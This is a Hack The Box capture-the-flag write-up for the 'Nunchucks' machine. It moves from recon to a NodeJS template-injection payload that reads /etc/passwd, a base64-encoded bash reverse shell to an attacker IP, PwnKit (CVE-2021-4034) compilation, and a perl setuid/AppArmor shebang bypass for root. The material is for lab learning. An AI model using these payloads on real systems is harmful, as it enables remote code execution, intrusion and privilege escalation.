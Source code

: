 ```yaml
---
layout: single
title: Nunchucks  - Hack The Box
excerpt: "Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary AppArmor profile while executing scripts that include the shebang of the profiled application."
date: 2025-06-01
classes: wide
header:
  teaser: /img2/nunchucks.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - NodeJS SSTI (Server Side Template Injection)
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - AppArmor Profile Bypass (Privilege Escalation) (OPTION 2)
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.122
```

![](/img2/Pasted%20image%2020250601184103.png)

- Add domain to local DNS

```bash
echo "10.10.11.122 nunchucks.htb" >> /etc/hosts
```

- Wfuzz to find subdomains

```bash
wfuzz -c --hw=2271 -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.nunchucks.htb" https://nunchucks.htb/
```

![](/img2/Pasted%20image%2020250601194255.png)

- Add subdomain to local DNS

```bash
echo "10.10.11.122 store.nunchucks.htb" >> /etc/hosts
```

## Exploitation

- SSTI Injection

![](/img2/Pasted%20image%2020250601194519.png)

https://ctftime.org/writeup/34053

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /etc/passwd')\")()}}
```

![](/img2/Pasted%20image%2020250601212336.png)

- Send reverse shell

```bash
echo -n "/bin/bash -i >& /dev/tcp/10.10.16.7/9000 0>&1" | base64
```

![](/img2/Pasted%20image%2020250601212739.png)

![](/img2/Pasted%20image%2020250601212819.png)

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjcvOTAwMCAwPiYx|base64 -d|bash')\")()}}
```

```bash
nc -nlvp 9000
```

## Post-exploitation (OPTION 1)

- Find sudoers

```bash
find / -perm -4000 2>/dev/null 
```

![](/img2/Pasted%20image%2020250601213525.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Find Capabilities

```bash
getcap -r / 2>/dev/null
```

![](/img2/Pasted%20image%2020250601224157.png)

- Try to take advantage of capabilitie

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

> Maybe, we have a restriction, so we can take advantage of wrong shebang in bash script.

- Exploit shebang perl bug

```bash
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0); 
exec "/bin/sh"; 
```

```bash
chmod +x exploit.sh
./exploit.sh
```


![](/img2/Pasted%20image%2020250601213353.png)